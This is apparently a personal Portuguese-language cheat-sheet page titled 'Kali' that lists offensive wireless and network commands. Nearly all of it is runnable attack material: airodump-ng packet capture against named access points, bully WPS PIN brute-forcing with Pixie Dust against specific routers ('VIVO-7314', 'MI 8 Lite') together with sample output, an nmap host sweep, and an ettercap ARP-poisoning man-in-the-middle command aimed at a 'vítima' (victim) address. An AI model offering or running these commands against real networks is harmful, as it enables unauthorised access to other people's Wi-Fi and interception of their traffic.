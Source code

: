 ```yaml
---
title: "Kali"
date: 2019-01-01T00:00:00-03:00
last_modified_at: 2022-06-28T00:00:00-03:00
excerpt_separator: "<!--more-->"
categories:
  - IT
  - Hacks
tags:
  - firma
---
```


## Sniffing

```bash
# Vê os pacotes entre roteadores e devices
sudo airdump-ng wlan0mon

# Captura Pacotes
sudo airodump-ng --bssid {mac_address} --channel {channel number} --write {filename}  wlan0mon
sudo airodump-ng --bssid 90:F6:52:F0:C5:B4 --channel 1 --write my_network wlan0mon

# Abre os pacotes no Wireshark
```

<br>

---

## Bully

```bash
# Associação
sudo bully --bssid D8:C6:78:0F:73:14 --essid VIVO-7314 --eapfail --nofcs --pixiewps --channel 11 --verbosity 4 wlan0mon
#[!] Received disassociation/deauthentication from the AP
#[+] Rx(  M1  ) = 'EAPFail'   Next pin '20075361'

# Mi 8 Lite
sudo bully --bssid 5E:8F:53:F6:37:D0 --essid "MI 8 Lite" --eapfail --nofcs --pixiewps --channel 11 --verbosity 4 wlan0mon
```

<br>

---

## ARP Poison

[How Hackers SNiFF (capture) network traffic // MiTM attack](https://www.youtube.com/watch?v=-rSqbgI7oZM)

```bash
# Scan network looking for devices
sudo nmap -sn 192.168.0.1/24

# Man-in-the-Middle (MiTM) attack
sudo ettercap -T -S -i {interface} -M arp:remote /{ip router}// /{ip vítima}//
sudo ettercap -T -S -i wlan0mon -M arp:remote /192.168.0.1// /192.168.0.110//
#-T	text-only
#-S	no use ssl

# After capture using wireshark
sudo wireshark
```
